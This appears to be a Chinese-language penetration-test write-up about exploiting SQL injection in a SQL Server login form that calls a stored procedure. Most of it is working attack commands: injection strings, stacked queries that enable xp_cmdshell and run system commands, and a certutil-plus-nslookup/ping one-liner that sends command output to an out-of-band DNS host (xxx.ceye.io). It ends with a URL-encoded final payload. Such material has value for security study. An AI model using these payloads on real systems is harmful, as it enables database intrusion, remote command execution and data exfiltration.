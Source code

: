 账号密码的验证貌似是调用了储存过程，类似如 execute @result= verify 'xxx','xxx';

当账号密码为admin/11','xx'--时，页面返回正常

![图片](https://shs3.b.qianxin.com/butian_public/f306509903b396e485d63477150816368.jpg)

由于不是很熟悉sqlserver使用存储过程的注入，想尝试构造出能成功登陆的payload没有成功，就换种思路。

sqlserver是默认可以堆叠查询的，所以只要把之前的语句闭合，那么就可以在其后执行任意sql语句，能执行任意sql语句，那么同样利用存储过程就可以执行系统命令

第一步先用如下语句开启扩展存储过程

- 
- 
- 
- 

```php
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

![图片](https://shs3.b.qianxin.com/butian_public/fa6f589017cc24a97cb1b14830948416f.jpg)

执行系统命令

> exec master..xp\_cmdshell "whoami"

这里是不会有回显的命令执行结果的，所以用ping命令来判断命令执行结果

![图片](https://shs3.b.qianxin.com/butian_public/ff371177469174067c21318f74053e68c.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f117c4b1550124e4427c497b69d76a9a8.jpg)

命令执行结果DNS带外
-----------

有时候能执行命令却看不见结果也是很难受的，这里我还是想能够观察到命令执行结果，用到DNS带外的方法，其实就下面一条命令

- 

```php
cmd /v /c "whoami > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=< temp3 && set FINAL=!MYVAR!.xxx.ceye.io && nslookup !FINAL!"
```

实际测试的时候爬了很多坑，当前执行目录可能没有写权限，换到D目录  
目标服务器貌似没有nslookup，换成ping  
&amp;&amp;这两个字符一定要编码，否则被WEB服务器当做参数分隔符了  
生成的temp文件要删除，否则下次执行会失败  
sqlserver中一对双引号其中的双引号用两个双引号代替

最后的paylaod

- 
- 
- 

```php
exec master..xp_cmdshell "whoami>D:/temp%26%26certutil -encode D:/temp D:/temp2%26%26findstr /L /V ""CERTIFICATE"" D:/temp2>D:/temp3";exec master..xp_cmdshell "cmd /v /c""set /p MYVAR=< D:/temp3 %26%26 set FINAL=!MYVAR!.xxx.ceye.io %26%26 ping !FINAL!""";exec master..xp_cmdshell "del ""D:/temp"" ""D:/temp2"" ""D:/temp3""";
```

